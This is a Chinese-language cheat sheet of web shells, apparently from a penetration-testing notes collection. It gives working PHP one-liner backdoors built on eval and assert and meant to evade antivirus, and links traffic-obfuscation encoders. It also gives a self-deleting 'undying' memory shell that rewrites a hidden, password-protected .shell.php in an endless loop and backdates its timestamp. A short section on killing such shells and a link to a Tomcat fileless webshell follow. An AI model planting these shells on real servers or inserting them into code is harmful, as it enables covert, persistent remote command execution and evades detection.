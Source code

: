PHP Meterpreter后门 Aspx Meterpreter后门 weevely webacoo\
&#x20;....

#### PHP

**文件免杀（Apache、Nginx特性）**&#x63;md

```php
<? assert(implode(reset(get_defined_vars())));	//返回由所有已定义变量所组成的数组    
Use age：cmd.php?a=system(whoami);
适用于PHP < 7.1 ，因为在PHP7.1之后assert被弃用了、7.2 create_function被弃用了
```

一句话

```php
<? @eval(false ? 1 : $_POST[1]);
```

**流量免杀**

蚁剑自定义编码器 [https://github.com/AntSwordProject/AwesomeEncoder/tree/master/php](https://github.com/AntSwordProject/AwesomeEncoder/tree/master/php)

**内存马**

```php
//nodie_shell.php
<?php
	set_time_limit(0);			//设置脚本最大执行时间,0 即为无时间限制
	ignore_user_abort(true);	//设置与客户机断开不终止脚本的执行
	unlink(__FILE__);			//删除文件自身
	$file = '/var/www/html/.shell.php';	
	$code = '<?php if(md5($_POST["pass"])=="cdd7b7420654eb16c1e1b748d5b7c5b8"){@system($_POST[a]);}?>';
	while (1) {
		file_put_contents($file, $code);	//写shell文件
		system('touch -m -d "2014-10-31 13:50:11" .shell.php');		//修改时间戳
		usleep(1000);			//以指定的微秒数延缓程序的执行
	}
?>
```

**杀死PHP不死马**

```
1、高权限，重启服务
service apache2 restart
service php restart

2、低权限，杀掉所有进程
kill -9 -1
killall apache2
```

#### JSP

Tomcat无文件Shell： [https://github.com/z1Ro0/tomcat\_nofile\_webshell](https://github.com/z1Ro0/tomcat_nofile_webshell)

